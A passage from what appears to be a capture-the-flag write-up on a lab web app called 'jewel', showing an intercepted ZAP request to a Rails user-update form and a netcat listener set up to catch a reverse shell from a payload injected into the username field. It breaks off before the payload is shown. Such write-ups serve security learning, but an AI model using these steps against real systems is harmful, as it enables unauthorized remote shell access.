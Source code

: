 ![3da7897cc89b9acb5f0b49ebe77ce96e.png](images/8eed0c4b477e471cabc64941d84f3277.png)

I made a test and analyze the request with `ZAP`. 

> POST http://jewel:8080/users/18 HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://jewel:8080/users/18/edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 189
Origin: http://jewel:8080
DNT: 1
Connection: keep-alive
Cookie: _session_id=f58ed559521ce3d89374cf969dd8b02c
Upgrade-Insecure-Requests: 1
Host: jewel:8080
>
>utf8=%E2%9C%93&_method=patch&authenticity_token=tenfVCKVmgVpX1DxJrgDCKUrS8oaUcCO10GnIZ3HAfoEFOxysZe1O%2B43zcZv2TUMaq2uSj3MkAB6MmTJKzjirA%3D%3D&user%5Busername%5D=rockyeah&commit=Update+User

It might be possible to inject our payload inside the `username` parameter. 

Let's try that !

First I set up a `netcat` listener.

{% highlight sh %}
nc -lvnp 3333
{% endhighlight %}

Then, all I need to do is intercepting the request with `ZAP`, remove the username value and inject my payload. Like this:

